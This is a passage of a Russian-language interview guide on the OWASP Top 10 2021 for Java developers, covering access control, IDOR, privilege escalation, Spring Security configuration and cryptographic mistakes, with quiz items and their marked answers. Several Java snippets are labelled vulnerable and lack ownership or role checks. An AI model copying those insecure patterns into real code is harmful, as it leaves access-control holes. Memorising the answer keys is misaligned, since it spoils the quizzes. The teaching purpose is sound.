# Вопросы на собеседовании: `OWASP Top 10`

Подробные вопросы и ответы по всем 10 категориям `OWASP Top 10 2021` для `Senior Java Developer`. Покрывает каждую категорию в глубину: от теории и типичных уязвимостей до практических примеров кода (уязвимый → исправленный) и архитектурных решений.

**`OWASP Top 10`** — стандартный список наиболее критичных рисков безопасности веб-приложений, составляемый `Open Web Application Security Project`. Версия 2021 года включает новые категории (`Insecure Design`, `Software and Data Integrity Failures`, `SSRF`) и переосмысляет ранжирование на основе реальных инцидентов.

## Полезные ссылки

### Официальная документация

- [OWASP Top 10 2021](https://owasp.org/Top10/) — официальный список категорий с описанием
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/) — практические рекомендации по каждой категории
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) — методология тестирования безопасности
- [Spring Security Reference](https://docs.spring.io/spring-security/reference/) — безопасность в `Spring` экосистеме
- [CWE/SANS Top 25](https://cwe.mitre.org/top25/) — смежная классификация уязвимостей
- [SQL Injection and How to Prevent It?](https://www.baeldung.com/sql-injection) — SQL-инъекции и защита в Java
- [Prevent Cross-Site Scripting (XSS) in a Spring Application](https://www.baeldung.com/spring-prevent-xss) — защита от XSS в Spring
- [Sanitize HTML Code to Prevent XSS Attacks](https://www.baeldung.com/java-sanitize-html-prevent-xss-attacks) — санитизация HTML в Java
- [Content Security Policy with Spring Security](https://www.baeldung.com/spring-security-csp) — CSP-заголовки в Spring Security

## Содержание

- [Полезные ссылки](#полезные-ссылки)
- [See also](#see-also)

**Общие вопросы по OWASP Top 10**
- [Q1. (!) Что такое OWASP Top 10 и зачем он нужен разработчику?](#q1--что-такое-owasp-top-10-и-зачем-он-нужен-разработчику)
- [Q2. Какие изменения произошли в OWASP Top 10 2021 по сравнению с 2017?](#q2-какие-изменения-произошли-в-owasp-top-10-2021-по-сравнению-с-2017)
- [Q3. Как OWASP оценивает риск каждой категории?](#q3-как-owasp-оценивает-риск-каждой-категории)

**A01: Broken Access Control**
- [Q4. (!) Что такое Broken Access Control и почему это категория №1?](#q4--что-такое-broken-access-control-и-почему-это-категория-1)
- [Q5. (!) Что такое IDOR и как от него защищаться?](#q5--что-такое-idor-и-как-от-него-защищаться)
- [Q6. Чем отличается вертикальная эскалация привилегий от горизонтальной?](#q6-чем-отличается-вертикальная-эскалация-привилегий-от-горизонтальной)
- [Q7. Как реализовать deny-by-default авторизацию в Spring Security?](#q7-как-реализовать-deny-by-default-авторизацию-в-spring-security)

**A02: Cryptographic Failures**
- [Q8. (!) Какие типичные криптографические ошибки допускают разработчики?](#q8--какие-типичные-криптографические-ошибки-допускают-разработчики)
- [Q9. Как правильно хранить пароли в Java-приложении?](#q9-как-правильно-хранить-пароли-в-java-приложении)
- [Q10. Как правильно использовать AES-GCM для шифрования данных?](#q10-как-правильно-использовать-aes-gcm-для-шифрования-данных)

**A03: Injection**
- [Q11. (!) Какие виды Injection-атак существуют и как от них защищаться?](#q11--какие-виды-injection-атак-существуют-и-как-от-них-защищаться)
- [Q12. (!) Как SQL Injection работает через Spring Data JPA и JDBC?](#q12--как-sql-injection-работает-через-spring-data-jpa-и-jdbc)
- [Q13. Что такое XSS и как от него защищаться на бэкенде?](#q13-что-такое-xss-и-как-от-него-защищаться-на-бэкенде)
- [Q14. Что такое Command Injection и как его предотвратить?](#q14-что-такое-command-injection-и-как-его-предотвратить)

**A04: Insecure Design**
- [Q15. (!) Чем Insecure Design отличается от implementation-багов?](#q15--чем-insecure-design-отличается-от-implementation-багов)
- [Q16. Что такое threat modeling и как его применять?](#q16-что-такое-threat-modeling-и-как-его-применять)
- [Q17. Какие secure design patterns должен знать Java-разработчик?](#q17-какие-secure-design-patterns-должен-знать-java-разработчик)

**A05: Security Misconfiguration**
- [Q18. (!) Какие типичные ошибки конфигурации безопасности встречаются в Spring Boot?](#q18--какие-типичные-ошибки-конфигурации-безопасности-встречаются-в-spring-boot)
- [Q19. Как правильно настроить security headers?](#q19-как-правильно-настроить-security-headers)
- [Q20. Как разделить конфигурацию между dev и prod?](#q20-как-разделить-конфигурацию-между-dev-и-prod)

**A06: Vulnerable and Outdated Components**
- [Q21. (!) Как выявлять и управлять уязвимыми зависимостями?](#q21--как-выявлять-и-управлять-уязвимыми-зависимостями)
- [Q22. Что такое SBOM и зачем он нужен?](#q22-что-такое-sbom-и-зачем-он-нужен)
- [Q23. Как организовать SCA в CI/CD pipeline?](#q23-как-организовать-sca-в-cicd-pipeline)

**A07: Identification and Authentication Failures**
- [Q24. (!) Какие ошибки аутентификации наиболее опасны?](#q24--какие-ошибки-аутентификации-наиболее-опасны)
- [Q25. Как защититься от brute force и credential stuffing?](#q25-как-защититься-от-brute-force-и-credential-stuffing)
- [Q26. Как безопасно управлять JWT-токенами?](#q26-как-безопасно-управлять-jwt-токенами)

**A08: Software and Data Integrity Failures**
- [Q27. (!) Что такое supply-chain атаки и как от них защищаться?](#q27--что-такое-supply-chain-атаки-и-как-от-них-защищаться)
- [Q28. Чем опасна небезопасная десериализация в Java?](#q28-чем-опасна-небезопасная-десериализация-в-java)
- [Q29. Как защитить CI/CD pipeline от компрометации?](#q29-как-защитить-cicd-pipeline-от-компрометации)

**A09: Security Logging and Monitoring Failures**
- [Q30. (!) Что должна включать стратегия security-логирования?](#q30--что-должна-включать-стратегия-security-логирования)
- [Q31. Какие события безопасности обязательно логировать?](#q31-какие-события-безопасности-обязательно-логировать)
- [Q32. Как настроить алертинг на security-события?](#q32-как-настроить-алертинг-на-security-события)

**A10: Server-Side Request Forgery (SSRF)**
- [Q33. (!) Что такое SSRF и почему он попал в OWASP Top 10?](#q33--что-такое-ssrf-и-почему-он-попал-в-owasp-top-10)
- [Q34. Как реализовать защиту от SSRF в Java?](#q34-как-реализовать-защиту-от-ssrf-в-java)

**Практика и процессы**
- [Q35. (!) Как встроить OWASP-проверки в SDLC и CI/CD?](#q35--как-встроить-owasp-проверки-в-sdlc-и-cicd)
- [Q36. Какие security-тесты обязательны перед релизом?](#q36-какие-security-тесты-обязательны-перед-релизом)
- [Q37. Как организовать безопасный секрет-менеджмент?](#q37-как-организовать-безопасный-секрет-менеджмент)
- [Q38. Как приоритизировать исправление уязвимостей?](#q38-как-приоритизировать-исправление-уязвимостей)
- [Q39. Что такое Defense in Depth и как применять на практике?](#q39-что-такое-defense-in-depth-и-как-применять-на-практике)
- [Q40. Как подготовиться к вопросам по OWASP на собеседовании?](#q40-как-подготовиться-к-вопросам-по-owasp-на-собеседовании)

**Углублённые вопросы**
- [Q41. (!) Как реализовать Path Traversal защиту в Java?](#q41--как-реализовать-path-traversal-защиту-в-java)
- [Q42. Что такое XXE и как защититься в Java?](#q42-что-такое-xxe-и-как-защититься-в-java)
- [Q43. (!) Как безопасно обрабатывать загрузку файлов в Spring Boot?](#q43--как-безопасно-обрабатывать-загрузку-файлов-в-spring-boot)
- [Q44. Как работает Log4Shell и почему это критично?](#q44-как-работает-log4shell-и-почему-это-критично)
- [Q45. Как реализовать безопасную работу с Cryptographic Keys в Java?](#q45-как-реализовать-безопасную-работу-с-cryptographic-keys-в-java)

---

## Q1. (!) Что такое OWASP Top 10 и зачем он нужен разработчику?

`OWASP Top 10` — это приоритизированный список наиболее критичных классов уязвимостей веб-приложений, составляемый `Open Web Application Security Project` на основе анализа реальных инцидентов. Обновляется каждые 3-4 года; текущая версия — **2021**.

Это **не стандарт** и не исчерпывающий чек-лист, а **модель рисков**, которая помогает команде сфокусироваться на самых вероятных и дорогих проблемах. Для разработчика OWASP Top 10 — это:

1. **Язык коммуникации** с security-командой и заказчиком
2. **Чек-лист** на code review, при проектировании и перед релизом
3. **Базовый минимум** — если вы не покрываете эти 10 категорий, всё остальное бессмысленно
4. **Маппинг на CWE** — каждая категория связана с конкретными `Common Weakness Enumeration`

> **Что хотят услышать на собеседовании**: не просто перечисление 10 пунктов, а понимание того, как OWASP используется в реальном SDLC — от design review до CI/CD quality gates.

> [!mcq]
> - [x] OWASP Top 10 — это приоритизированный список наиболее критичных классов уязвимостей веб-приложений, составляемый на основе анализа реальных инцидентов и опроса экспертов; обновляется каждые 3-4 года. | Верное определение. OWASP Top 10 — не стандарт и не исчерпывающий чек-лист, а модель рисков. Используется как язык коммуникации с security-командой, чек-лист на code review и базовый минимум для secure SDLC.
> - [ ] OWASP Top 10 — это обязательный международный стандарт безопасности веб-приложений, сертификация по которому требуется для PCI DSS compliance. | OWASP Top 10 — это модель рисков, а не стандарт и не сертификация. Для PCI DSS compliance используются другие требования (PCI DSS 4.0); OWASP Top 10 лишь упоминается как best practice, но прохождение «OWASP Top 10 сертификации» не существует.
> - [ ] OWASP Top 10 — это автоматизированный инструмент сканирования уязвимостей, встраиваемый в CI/CD pipeline; генерирует отчёт о найденных проблемах в коде. | OWASP Top 10 — это список категорий уязвимостей (документ), а не инструмент сканирования. Инструменты сканирования (OWASP Dependency-Check, ZAP) — отдельные проекты OWASP, которые используют Top 10 как справочник при классификации находок.
> - [ ] OWASP Top 10 — это список 10 самых безопасных Java-фреймворков для разработки веб-приложений, обновляемый ежегодно сообществом OWASP. | Это неверно. OWASP Top 10 — это список классов уязвимостей (Broken Access Control, Cryptographic Failures, Injection и т. д.), а не фреймворков. Документ не рекомендует конкретные фреймворки, а описывает паттерны рисков.

## Q2. Какие изменения произошли в OWASP Top 10 2021 по сравнению с 2017?

Версия 2021 принесла три новых категории и существенную перегруппировку:

| # | 2017 | 2021 | Изменение |
|---|------|------|-----------|
| A01 | `Injection` | `Broken Access Control` | Поднялся с 5-го места |
| A02 | `Broken Authentication` | `Cryptographic Failures` | Расширен от аутентификации до всей криптографии |
| A03 | `Sensitive Data Exposure` | `Injection` | Опустился с 1-го места |
| A04 | `XXE` | **`Insecure Design`** | **Новая категория** |
| A05 | `Broken Access Control` | `Security Misconfiguration` | Поглотил `XXE` |
| A06 | `Security Misconfiguration` | `Vulnerable Components` | Поднялся |
| A07 | `XSS` | `Auth Failures` | `XSS` вошёл в `Injection` |
| A08 | `Insecure Deserialization` | **`Integrity Failures`** | **Новая**, поглотила десериализацию |
| A09 | `Using Components with Known Vulns` | `Logging Failures` | — |
| A10 | `Insufficient Logging` | **`SSRF`** | **Новая категория** |

Ключевые наблюдения:
- **`Broken Access Control`** стал №1 — он найден в 94% приложений при тестировании
- **`Insecure Design`** подчёркивает, что secure coding без secure design недостаточно
- **`SSRF`** отражает рост cloud-инфраструктуры и атак на metadata endpoints

> [!mcq]
> - [ ] В OWASP Top 10 2021 категория A01 осталась Injection, как в 2017, потому что SQL Injection по-прежнему остаётся самой распространённой проблемой. | Injection опустился с A01:2017 на A03:2021. Категорией №1 в 2021 году стал Broken Access Control (обнаруживается в 94% протестированных приложений). XSS вошёл в Injection как подтип.
> - [x] В OWASP Top 10 2021 появились три новых категории: Insecure Design (A04), Software and Data Integrity Failures (A08) и SSRF (A10); Broken Access Control поднялся до A01. | Верный список изменений. Insecure Design подчёркивает разницу между дизайном и реализацией. A08 поглотила Insecure Deserialization из 2017. SSRF попал в Top 10 из-за роста cloud-инфраструктуры и атак на metadata endpoints.
> - [ ] В OWASP Top 10 2021 появились три новых категории: Broken Access Control (A01), Insecure Design (A04) и SSRF (A10); Injection сохранил первое место. | Broken Access Control — не новая категория: она была в 2017 под номером A05 и поднялась в 2021 до A01. Injection опустился с A01 до A03. Реально новыми категориями 2021 являются только Insecure Design, Integrity Failures и SSRF.
> - [ ] В OWASP Top 10 2021 категория XXE (A04:2017) осталась как отдельная категория A04:2021, но её приоритет снизился из-за распространения JSON API. | XXE не сохранилась как отдельная категория в 2021 — она была поглощена Security Misconfiguration (A05:2021). Место A04 заняла новая категория Insecure Design, которая не связана с XML-парсингом.

## Q3. Как OWASP оценивает риск каждой категории?

Каждая категория оценивается по формуле: **`Risk = Likelihood × Impact`**, где:

- **`Likelihood`** складывается из `Threat Agent`, `Vulnerability Prevalence` и `Detectability`
- **`Impact`** включает `Technical Impact` и `Business Impact`



На практике OWASP Top 10 2021 использует данные из:
- **Анализа CVE** и инцидентов (data-driven для 8 категорий)
- **Опроса экспертов** (community survey для 3 категорий: `Insecure Design`, `SSRF`, `Integrity Failures`)

> [!mcq]
> - [ ] OWASP оценивает риск по формуле Risk = CVSS × CVE_count; категории с большим количеством связанных CVE получают более высокий приоритет в списке. | OWASP Top 10 не использует CVSS × CVE_count. Формула оценки — Risk = Likelihood × Impact, где Likelihood включает prevalence, threat agent и detectability, а Impact — technical и business impact. CVSS применяется для конкретных CVE, а не для категорий.
> - [x] OWASP оценивает риск по формуле Risk = Likelihood × Impact, где Likelihood складывается из Threat Agent, Vulnerability Prevalence и Detectability; 8 категорий оцениваются data-driven, 3 — через опрос экспертов. | Верное описание. Impact делится на Technical и Business. Data-driven подход использует данные из CVE и инцидентов для 8 категорий, community survey применяется для новых категорий (Insecure Design, SSRF, Integrity Failures), где исторических данных мало.
> - [ ] OWASP оценивает риск только через опрос security-экспертов (community survey); никакие автоматические данные из CVE и инцидентов не используются, чтобы избежать bias инструментов. | Это неверно. OWASP использует data-driven подход для 8 категорий из 10 на основе реальных данных из CVE и результатов пентестов. Community survey применяется только для 3 новых категорий, где исторических данных недостаточно.
> - [ ] OWASP оценивает риск по формуле Risk = Exploitability × PublicDisclosure; категории попадают в Top 10 только при наличии публичного эксплойта. | Наличие публичного эксплойта — фактор приоритизации конкретных CVE, но не метод оценки категорий OWASP Top 10. OWASP учитывает Likelihood (включая prevalence и detectability) и Impact, а не Exploitability × PublicDisclosure.

---

## Q4. (!) Что такое Broken Access Control и почему это категория №1?

`Broken Access Control` (`A01:2021`) — нарушение контроля доступа, когда пользователь может получить доступ к ресурсам или выполнить операции, на которые у него нет прав. Стал №1, потому что обнаруживается в **94% протестированных приложений**.

Типичные проявления:
- **`IDOR`** — прямая ссылка на объект без проверки владельца
- **Вертикальная эскалация** — обычный пользователь вызывает admin-эндпоинт
- **Горизонтальная эскалация** — пользователь A видит данные пользователя B
- **Обход проверок** — манипуляция с путями, HTTP-методами, параметрами
- **`CORS` misconfiguration** — доступ с неавторизованного origin



Принцип защиты — **deny-by-default** на каждом уровне: контроллер, сервис, база данных. Подробнее о паттернах авторизации — в [вопросах по авторизации](authentication-authorization-patterns-interview.md).

> [!mcq]
> - [ ] Broken Access Control (A01:2021) — категория №1 OWASP, обнаруживается в 94% протестированных приложений; основная причина — отсутствие шифрования пользовательских данных и слабые алгоритмы хэширования. | Broken Access Control связан с неправильной авторизацией (IDOR, эскалация привилегий, обход проверок), а не с криптографией. Шифрование и хэширование — тема A02 (Cryptographic Failures).
> - [x] Broken Access Control (A01:2021) — категория №1 OWASP, обнаруживается в 94% приложений; основные проявления: IDOR, вертикальная и горизонтальная эскалация привилегий; защита — deny-by-default на каждом уровне стека. | Верное описание. IDOR (подмена ID объекта), вертикальная эскалация (user→admin), горизонтальная (доступ к чужим данным) — конкретные векторы A01. Deny-by-default на уровне контроллера, сервиса и БД обеспечивает эшелонированную защиту.
> - [ ] Broken Access Control (A01:2021) — категория №1 OWASP, обнаруживается в 94% приложений; IDOR не входит в Broken Access Control и является отдельной категорией OWASP — Insecure Direct Object Reference. | IDOR — это конкретный подтип Broken Access Control, а не отдельная категория. OWASP явно включает IDOR в A01 как один из наиболее распространённых способов реализации нарушения контроля доступа.
> - [ ] Broken Access Control (A01:2021) обнаруживается в 94% приложений; защита — применение RBAC на уровне URL-паттернов в SecurityFilterChain; проверка ownership в бизнес-логике избыточна при правильном RBAC. | RBAC на уровне URL решает только вертикальную эскалацию (user vs admin). Горизонтальная эскалация (пользователь A vs пользователь B) — одинаковой роли — RBAC не предотвращает; для этого нужна проверка ownership в бизнес-логике.

## Q5. (!) Что такое IDOR и как от него защищаться?

`IDOR` (`Insecure Direct Object Reference`) — атака, при которой злоумышленник подменяет идентификатор объекта в запросе и получает доступ к чужим данным.

**Уязвимый код:**
```java
// Нет проверки ownership — любой аутентифицированный пользователь
// может получить данные любого аккаунта, подменив accountId
@GetMapping("/api/accounts/{accountId}")
public Account getAccount(@PathVariable Long accountId) {
    return accountRepository.findById(accountId).orElseThrow();
}
```

**Исправленный код:**
```java
@GetMapping("/api/accounts/{accountId}")
public Account getAccount(@PathVariable Long accountId,
                          @AuthenticationPrincipal UserDetails user) {
    Account account = accountRepository.findById(accountId)
            .orElseThrow(() -> new ResourceNotFoundException("Account not found"));
    
    // Проверка: пользователь — владелец или admin
    if (!account.getOwnerId().equals(user.getId()) 
            && !user.hasAuthority("ROLE_ADMIN")) {
        throw new AccessDeniedException("Not authorized to access this account");
    }
    return account;
}
```

**Ещё надёжнее** — фильтрация на уровне запроса к БД:
```java
@Query("SELECT a FROM Account a WHERE a.id = :id AND a.ownerId = :ownerId")
Optional<Account> findByIdAndOwnerId(@Param("id") Long id, 
                                      @Param("ownerId") Long ownerId);
```

Дополнительные меры:
- Использовать **`UUID`** вместо sequential `Long` для идентификаторов — усложняет перебор
- Централизовать проверку ownership в **`PermissionEvaluator`** (см. [Spring Security](../frameworks/spring/spring-security-interview.md))
- Добавить **`Row Level Security`** на уровне БД как defense in depth

> [!mcq]
> - [ ] IDOR защищается заменой числовых идентификаторов на UUID: UUID трудно подобрать, поэтому проверка ownership при использовании UUID избыточна. | UUID усложняет перебор, но не устраняет IDOR: если злоумышленник узнал UUID чужого объекта (например, из общедоступной ссылки или утечки), он может обратиться напрямую. Проверка ownership обязательна независимо от типа идентификатора.
> - [x] IDOR защищается проверкой ownership в бизнес-логике (account.ownerId == currentUser.id) или фильтрацией на уровне БД-запроса (WHERE id=:id AND owner_id=:userId); UUID лишь усложняет перебор, но не заменяет проверку. | Верная стратегия. Фильтрация в WHERE-условии предпочтительнее post-fetch проверки (нет risk of reference leakage). PermissionEvaluator в Spring Security — централизованный способ реализации ownership-проверок.
> - [ ] IDOR защищается только на уровне URL-паттернов в SecurityFilterChain: правила `.requestMatchers("/api/accounts/{id}").authenticated()` гарантируют, что только аутентифицированные пользователи получают доступ к чужим ресурсам. | URL-паттерны проверяют только аутентификацию и роль, но не ownership. Правило `authenticated()` означает «любой вошедший пользователь», а не «только владелец». IDOR — это именно атака аутентифицированного пользователя на чужие данные.
> - [ ] IDOR защищается шифрованием идентификаторов в API-ответах: если ID зашифрован, злоумышленник не может сконструировать запрос к чужому объекту. | Шифрование идентификаторов в ответе не защищает от IDOR: клиент (и злоумышленник с доступом к одному аккаунту) видит зашифрованные ID своих объектов и может использовать их в запросах. Нужна серверная проверка прав при каждом обращении.

## Q6. Чем отличается вертикальная эскалация привилегий от горизонтальной?

| Тип | Описание | Пример |
|-----|----------|--------|
| **Вертикальная** | Пользователь получает доступ к функциям более высокой роли | Обычный пользователь вызывает `DELETE /api/admin/users/42` |
| **Горизонтальная** | Пользователь получает доступ к данным другого пользователя той же роли | Пользователь A читает заказы пользователя B через `GET /api/orders/999` |

**Вертикальная** — обычно ошибка в конфигурации маршрутов или отсутствие `@PreAuthorize`:

```java
// Уязвимо: эндпоинт доступен всем аутентифицированным пользователям
@DeleteMapping("/api/admin/users/{id}")
public void deleteUser(@PathVariable Long id) {
    userService.delete(id);
}

// Исправлено: явное ограничение по роли
@PreAuthorize("hasRole('ADMIN')")
@DeleteMapping("/api/admin/users/{id}")
public void deleteUser(@PathVariable Long id) {
    userService.delete(id);
}
```

**Горизонтальная** — более коварная, потому что стандартный RBAC её не ловит. Нужна проверка ownership на уровне бизнес-логики (см. Q5).

> [!mcq]
> - [ ] Вертикальная эскалация — пользователь A читает данные пользователя B той же роли; горизонтальная эскалация — обычный пользователь вызывает admin-эндпоинт. | Определения поменяны местами. Вертикальная эскалация — это переход между уровнями ролей (user → admin). Горизонтальная — доступ к данным другого пользователя той же роли (user A → user B).
> - [ ] Вертикальная эскалация и горизонтальная эскалация — синонимы; оба термина описывают получение доступа к чужим данным через подмену идентификатора. | Это разные типы атак. Вертикальная связана со сменой роли (privilege escalation), горизонтальная — с доступом к данным другого пользователя той же роли (IDOR). Защита тоже разная: RBAC + @PreAuthorize для вертикальной, ownership-проверка для горизонтальной.
> - [x] Вертикальная эскалация — обычный пользователь вызывает admin-эндпоинт (смена роли); горизонтальная — пользователь A читает данные пользователя B той же роли; защиты разные: @PreAuthorize + RBAC vs проверка ownership. | Верное разграничение. Вертикальная ловится стандартным RBAC и проверкой роли на методе. Горизонтальная требует проверки ownership в бизнес-логике или фильтрации по owner_id в SQL-запросе, так как оба пользователя имеют одинаковую роль.
> - [ ] Вертикальная эскалация — атака через подмену HTTP-метода (GET вместо DELETE); горизонтальная — атака через подмену HTTP-заголовков (X-User-Id). | Это неверное определение. Подмена HTTP-метода и заголовков — это конкретные техники обхода проверок, но они не определяют вертикальность/горизонтальность. Вертикальная/горизонтальная — это направления эскалации привилегий по уровням ролей.

## Q7. Как реализовать deny-by-default авторизацию в Spring Security?

Принцип `deny-by-default` означает: всё, что явно не разрешено — запрещено. В `Spring Security` это реализуется через `SecurityFilterChain`:

```java
@Configuration
@EnableMethodSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                // Явно разрешённые пути
                .requestMatchers("/api/public/**", "/health").permitAll()
                .requestMatchers("/api/admin/**").hasRole("ADMIN")
                // ВСЁ ОСТАЛЬНОЕ — запрещено
                .anyRequest().authenticated()
            )
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
            )
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.STATELESS)
            );
        return http.build();
    }
}
```

Типичные ошибки:
- Использование `.anyRequest().permitAll()` — отключает защиту для забытых эндпоинтов
- Защита только на уровне URL, без `@PreAuthorize` в сервисах
- Забытые `Actuator` эндпоинты — `/actuator/env` может содержать секреты

> [!mcq]
> - [ ] Deny-by-default реализуется через правило .anyRequest().permitAll() в конце цепочки, чтобы не забыть разрешить публичные эндпоинты; неописанные URL должны быть доступны по умолчанию. | Это противоположно deny-by-default. Правильный принцип — явно запретить всё, что не разрешено: .anyRequest().authenticated() или .denyAll(). Permit-by-default открывает забытые эндпоинты (новые контроллеры, actuator) для всех.
> - [x] Deny-by-default в Spring Security реализуется через .anyRequest().authenticated() в конце цепочки authorizeHttpRequests; явно разрешаются только публичные пути (health, /api/public/**), всё остальное требует аутентификации. | Верный подход. Порядок правил важен: сначала permitAll для публичных путей, затем роли для защищённых, и .anyRequest().authenticated() в конце. Дополнительно — @PreAuthorize на методах сервисов для defense in depth.
> - [ ] Deny-by-default означает использование только URL-based правил в SecurityFilterChain; @PreAuthorize на методах сервисов избыточен при правильной конфигурации HttpSecurity. | Это противоречит defense in depth. URL-based правила — первый слой, но @PreAuthorize нужен для проверки на уровне методов, особенно для ownership (IDOR) и granular-правил, которые нельзя выразить через URL-паттерн.
> - [ ] Deny-by-default в Spring Security работает автоматически без SecurityFilterChain-конфигурации, если в проекте подключена зависимость spring-boot-starter-security. | Spring Security по умолчанию требует HTTP Basic с сгенерированным паролем для всех запросов, но это не полноценный deny-by-default. В продакшене нужна явная SecurityFilterChain-конфигурация с authorizeHttpRequests и соответствующей политикой.

---

## Q8. (!) Какие типичные криптографические ошибки допускают разработчики?

`Cryptographic Failures` (`A02:2021`) покрывает ошибки в шифровании, хэшировании и обработке чувствительных данных. Основные проблемы:

| Ошибка | Пример | Правильный подход |
|--------|--------|-------------------|
| Хранение паролей в открытом виде или через `MD5`/`SHA-1` | `user.setPassword(rawPassword)` | `BCrypt`, `Argon2`, `scrypt` |
| Слабые алгоритмы шифрования | `DES`, `3DES`, `RC4` | `AES-256-GCM` |
| Отсутствие шифрования данных in transit | `HTTP` вместо `HTTPS` | `TLS 1.2+`, `HSTS` |
| Хардкод ключей в коде | `private static final String KEY = "..."` | `Vault`, `AWS KMS`, `GCP KMS` |
| Использование `ECB` mode | `AES/ECB/PKCS5Padding` | `AES/GCM/NoPadding` |
| Переиспользование `IV`/`nonce` | Статический `IV` для `GCM` | Случайный `IV` при каждом шифровании |
| Собственная криптография | Самописный алгоритм | Проверенные библиотеки (`BouncyCastle`, `Tink`) |

> **На собеседовании** часто спрашивают: «Почему нельзя использовать `MD5` для паролей?» — потому что `MD5` быстрый (GPU перебирает миллиарды хэшей/сек), не использует соль по умолчанию, и имеет коллизии. `BCrypt` специально **замедлён** (cost factor), использует уникальную соль и устойчив к rainbow tables.

> [!mcq]
> - [ ] Cryptographic Failures (A02:2021) включает только ошибки шифрования данных in transit (использование HTTP вместо HTTPS); хранение паролей через MD5 — тема отдельной категории Authentication Failures. | Cryptographic Failures охватывает весь спектр: слабое хэширование паролей (MD5/SHA-1), слабые алгоритмы шифрования (DES/ECB), хардкод ключей, отсутствие TLS. Это широкая категория, не ограниченная транспортом.
> - [x] Cryptographic Failures (A02:2021) охватывает: слабые алгоритмы хэширования паролей (MD5/SHA-1 вместо BCrypt/Argon2), слабые шифры (DES/ECB вместо AES-GCM), хардкод ключей, переиспользование IV/nonce в GCM. | Полный и корректный перечень. BCrypt/Argon2 — adaptive hashing (намеренное замедление + уникальная соль). AES-GCM (AEAD) — authenticated encryption. Переиспользование IV в GCM полностью ломает конфиденциальность — критическая ошибка реализации.
> - [ ] Cryptographic Failures (A02:2021) охватывает слабые алгоритмы; при этом использование AES в режиме ECB допустимо для шифрования небольших фиксированных данных, так как ECB быстрее GCM. | AES-ECB никогда не допустим: он детерминирован (одинаковый plaintext → одинаковый ciphertext), паттерны данных видны в зашифрованных блоках, нет аутентификации целостности. Производительность не оправдывает эти уязвимости.
